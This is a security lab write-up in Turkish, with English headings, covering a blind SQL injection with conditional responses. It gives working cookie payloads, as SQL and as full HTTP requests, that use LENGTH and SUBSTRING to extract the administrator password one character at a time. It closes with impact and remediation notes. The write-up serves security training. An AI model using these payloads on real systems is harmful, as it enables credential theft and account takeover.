






# Blind SQL injection with conditional responses

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda `TrackingId` cookie değeri SQL sorgusuna güvenli şekilde eklenmediği için blind SQL injection yapılabiliyordu. Uygulama sorgu sonucunu doğrudan response içinde göstermiyordu; ancak SQL koşulu doğru olduğunda sayfada `Welcome back!` mesajı yer alıyor, yanlış olduğunda bu mesaj görünmüyordu.

Amaç, bu koşullu response farkını kullanarak `administrator` kullanıcısının parolasını karakter karakter tespit etmek ve hesaba giriş yapmaktı.

## 3. Exploitation Steps

1. Burp Suite ile `/login` isteğini yakaladım ve `TrackingId` cookie değerinin response davranışını etkilediğini gözlemledim.



2. Cookie içine her zaman doğru dönen bir koşul ekledim:

```sql
'+AND+1=1--
```

Bu koşul doğru olduğu için response içinde `Welcome back!` mesajı görünmeye devam etti.



3. Ardından `administrator` kullanıcısının parolasının uzunluğunu test etmek için `LENGTH` fonksiyonunu kullandım:

```sql
'+AND+LENGTH((SELECT password FROM users WHERE username='administrator'))=20--
```

Koşula göre response içinde `Welcome back!` mesajının dönüp dönmediğini kontrol ederek parola uzunluğunu tespit ettim.



4. Parolanın belirli pozisyonundaki karakterleri bulmak için `SUBSTRING` sorgusu kullandım:

```sql
'+AND+SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a'--
```

Bu mantıkta karakter doğru olduğunda `Welcome back!` mesajı dönüyor, yanlış olduğunda dönmüyordu.



5. Burp Intruder ile parola pozisyonlarını ve olası karakterleri otomatik olarak denedim. Response farkını `Welcome back!` mesajına göre filtreleyerek doğru karakterleri belirledim.



6. Intruder sonuçlarından `administrator` kullanıcısının parolasını çıkardım, bu parola ile hesaba giriş yaptım ve labı tamamladım.



## 4. Kullanılan Payloadlar

- Boolean farkını doğrulamak için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+1=1--; session=<session-id>
```

- Yanlış koşulda response farkını görmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+1=2--; session=<session-id>
```

- `administrator` kullanıcısının parola uzunluğunu tespit etmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+LENGTH((SELECT password FROM users WHERE username='administrator'))=20--; session=<session-id>
```

- Parolanın belirli pozisyondaki karakterini test etmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a'--; session=<session-id>
```

## 5. Sonuç

- `TrackingId` cookie değerinin SQL sorgusuna dahil edildiğini tespit ettim.
- Doğru ve yanlış boolean koşullarda response içinde `Welcome back!` mesajının değiştiğini doğruladım.
- `LENGTH` ile `administrator` parolasının uzunluğunu belirledim.
- `SUBSTRING` ve Burp Intruder kullanarak parolayı karakter karakter çıkardım.
- Elde edilen parola ile `administrator` hesabına giriş yaparak labı tamamladım.

## 6. Etki

Bu zafiyet, saldırganın veritabanı çıktısını doğrudan göremediği durumlarda bile koşullu response farklarını kullanarak hassas bilgileri çıkarmasına neden olabilir. Kullanıcı parolaları gibi kritik veriler karakter karakter elde edilerek hesap devralma ve yetki yükseltme gerçekleştirilebilir.

## 7. Çözüm

- SQL sorgularında parametreli/prepared statement kullan.
- Cookie ve header değerleri dahil tüm kullanıcı girdilerini güvenilmeyen veri olarak ele al.
- Kullanıcı girdilerini SQL sorgusuna doğrudan ekleme.
- Veritabanı hata ve davranış farklılıklarının hassas bilgi sızdırmasını engelle.
- Parolaları düz metin olarak saklama; güçlü, yavaş ve tuzlu hash algoritmaları kullan.
